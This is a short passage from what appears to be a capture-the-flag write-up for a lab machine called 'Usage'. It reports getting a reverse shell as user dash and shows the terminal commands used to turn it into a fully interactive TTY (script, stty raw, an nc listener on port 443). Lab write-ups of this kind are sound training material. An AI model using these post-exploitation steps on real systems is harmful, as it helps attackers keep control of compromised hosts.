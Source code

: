 ![sended reverse shell](/assets/images/Usage/sended-reverse-shell.png)

And I receive a shell as dash!:

![received shell as dash](/assets/images/Usage/received-shell-as-dash.png)

But now to have a completely interactive tty shell, I will execute the following commands:

```bash
dash@usage:/var/www/html/project_admin/public/uploads/images$ script /dev/null -c bash
dash@usage:/var/www/html/project_admin/public/uploads/images$ script /dev/null -c bash          
Script started, output log file is '/dev/null'.
dash@usage:/var/www/html/project_admin/public/uploads/images$ ^Z
[1]  + 79482 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 79482 continued  nc -lvnp 443
                                    reset xterm
dash@usage:/var/www/html/project_admin/public/uploads/images$ export TERM=xterm                        
dash@usage:/var/www/html/project_admin/public/uploads/images$ export SHELL=bash
usage:/var/www/html/project_admin/public/uploads/images$ stty rows 50 columns 184
```
